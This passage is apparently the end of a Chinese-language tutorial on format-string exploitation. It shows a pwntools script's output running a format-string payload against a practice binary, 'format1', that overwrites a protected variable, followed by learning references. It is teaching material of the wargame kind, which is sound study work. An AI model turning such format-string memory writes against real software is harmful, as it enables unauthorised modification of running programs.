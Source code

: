 ```py
print(output)
```
```
python3 script.py
sys:1: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
[+] Starting local process './format1': pid 23801
[+] Receiving all data: Done (1.46KB)
[*] Process './format1' stopped with exit code 32 (pid 23801)
b'AAAAAAA8\x96\x04\x08BBBBBBf7fd6f80 f7c184be f7fbe4a0 ffffcae0 f7fbe66c 
ffffcac8 8048435 ffffcdb1 0 f7e2a000 f7d20ecb ffffcda7 70 f7ffd020 f7c21519 
2 ffffcb84 ffffcb90 ffffcaf0 f7e2a000 804841c 2 ffffcb84 f7e2a000 ffffcb84 
f7ffcb80 f7ffd020 a870f17d d3ccfb6d 0 0 0 f7ffcb80 f7ffd020 13e70c00 
f7ffda40 f7c214a6 f7e2a000 f7c215f3 0 f7ffd000 2 8048340 0 f7fd8ff4 f7c2156d 
f7ffd000 2 8048340 0 8048361 804841c 2 ffffcb84 8048450 8048440 f7fcaaa0 
ffffcb7c f7ffda40 2 ffffcda7 ffffcdb1 0 ffffd020 ffffd037 ffffd046 ffffd05a 
ffffd090 ffffd0c3 ffffd0da ffffd0e5 ffffd119 ffffd171 ffffd184 ffffd1a0 
ffffd1eb ffffd1fd ffffd219 ffffd22f ffffd244 ffffd25a ffffd276 ffffd297 
ffffd2b6 ffffd2cd ffffd2de ffffd2ed ffffd2ff ffffd318 ffffd32e ffffd341 
ffffd350 ffffd362 ffffd372 ffffd386 ffffd395 ffffd3a4 ffffd3da ffffd411 
ffffd443 ffffd4c3 ffffd4db ffffd4e8 ffffd52a ffffd53d ffffd55b ffffd56d 
ffffd607 ffffd681 ffffd694 ffffd6c6 ffffd6ce ffffd6e1 ffffd710 ffffd726 
ffffd73a ffffd746 ffffd759 ffffd77d ffffd78d ffffd7a7 ffffd7f5 ffffd80d 
ffffd84b ffffd86a ffffd879 ffffd8ad ffffd8c4 ffffd8dc ffffd8ed ffffd927 
ffffd93c ffffd947 ffffd95b ffffd96e ffffd98a ffffd995 ffffd99d ffffd9bd 
ffffdfac ffffdfb6 ffffdfce ffffdfda 0 20 f7fc4540 21 f7fc4000 33 d30 10 
178bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 f7fc6000 8 0 9 8048340 b 3e8 c 
3e8 d 3e8 e 3e8 17 0 19 ffffcd8b 1a 2 1f ffffdfee f ffffcd9b 0 0 0 32000000 
a813e70c fd412bf2 464e0e19 691c5a15 363836 0 2e000000 726f662f 3174616d 
41414100 41414141 you have modified the target :)\n'
```
我們成功使用格式化字串的漏洞，對無法存取的變數成功進行修改了。
## 後測表單
![](https://hackmd.io/_uploads/HyZENczH2.png)

## 參考資料
[LiveOverflow](https://www.youtube.com/@LiveOverflow)

[Anglebox](https://www.youtube.com/@scwuaptx)

[Binary Exploitation Notes](https://ir0nstone.gitbook.io/notes/)

[CTF 101 Binary Exploitation](https://ctf101.org/binary-exploitation/overview/)